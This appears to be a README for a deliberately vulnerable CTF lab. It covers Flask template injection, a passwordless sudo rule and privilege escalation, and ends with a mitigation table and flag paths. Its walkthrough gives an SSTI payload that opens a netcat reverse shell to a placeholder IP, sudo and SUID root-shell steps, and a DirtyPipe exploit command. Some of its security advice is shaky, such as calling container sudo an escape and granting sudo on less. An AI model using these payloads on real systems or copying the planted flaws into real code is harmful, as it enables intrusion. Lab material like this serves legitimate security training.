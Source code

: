 # Dockerized Flask Hell - Medium CTF Machine

![Difficulty](https://img.shields.io/badge/Difficulty-Medium-orange)
![Category](https://img.shields.io/badge/Category-Web%20%2B%20PrivEsc-blue)
![Platform](https://img.shields.io/badge/Platform-Docker%2FLinux-lightgrey)

A deliberately vulnerable CTF machine with:
- Flask Server-Side Template Injection (SSTI)
- Docker container escape
- Linux privilege escalation

## Table of Contents
1. [Quick Start](#quick-start)
2. [Vulnerabilities](#vulnerabilities)
   - [Flask SSTI](#1-flask-ssti---remote-code-execution)
   - [Docker Escape](#2-docker-escape---host-access)
   - [Privilege Escalation](#3-privilege-escalation---root)
3. [Exploitation Walkthrough](#exploitation-walkthrough)
4. [Mitigation Guide](#mitigation-guide)
5. [Flag Locations](#flag-locations)
6. [Educational Value](#educational-value)

---

## Quick Start
```bash
# Build and run
git clone https://github.com/your-repo/dockerized-flask-ctf.git
cd dockerized-flask-ctf
docker-compose up -d

# Access the web app
curl http://localhost:5000

## Vulnerabilities
### 1. Flask SSTI - Remote Code Execution

#### Vulnerable Code:

```Python
@app.route("/debug")
def debug():
    user_input = request.args.get('input', 'None')
    return render_template_string(f"Debug: {user_input}")  # SSTI here
    ```
#### Impact:

    Execute arbitrary commands as ctf user inside container.

### 2. Docker Escape - Host Access

Misconfiguration:

```Bash
RUN echo "ctf ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
Impact:

    Break out of container to host system via sudo.

3. Privilege Escalation - Root

Attack Vectors:

    SUID Binary: /usr/bin/suid-wrapper (compiled with setuid(0))

    Kernel Exploit: DirtyPipe (CVE-2022-0847) in privileged container.

Exploitation Walkthrough
Step 1: Gain Initial Access (SSTI)

    Detect SSTI:
```http
http://localhost:5000/debug?input={{7*7}}
```
Output: Debug: 49
Get reverse shell:

```Python
{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f').read()}}
```
Step 2: Escape Docker Container

    Check containerization:
```Bash
cat /proc/1/cgroup | grep docker
```
Abuse sudo:
```Bash
sudo su  # No password required
```
Step 3: Privilege Escalation

Option A: SUID Binary
```bash
/usr/bin/suid-wrapper  # Spawns root shell
```
Option B: Kernel Exploit
```Bash
gcc dirtypipe.c -o exploit && ./exploit
```
Mitigation Guide
Vulnerability	Secure Configuration
SSTI	Use render_template() instead of render_template_string()
Docker Escape	Remove NOPASSWD in /etc/sudoers
Priv Esc	Patch kernel and avoid privileged: true in Docker

Secure Dockerfile Example:
```Dockerfile
USER ctf
RUN echo "ctf ALL=(ALL) /usr/bin/less" >> /etc/sudoers  # Restrict sudo
```
Flag Locations
Flag	Path	Unlock Condition
user.txt	/home/ctf/user.txt	After SSTI exploit
root.txt	/root/root.txt	After privilege escalation
Educational Value

Skills Learned:

    Web app testing (SSTI detection)

    Container security auditing

    Linux privilege escalation

Recommended Tools:

    linpeas.sh for host enumeration

    checksec for binary analysis

    docker inspect for container auditing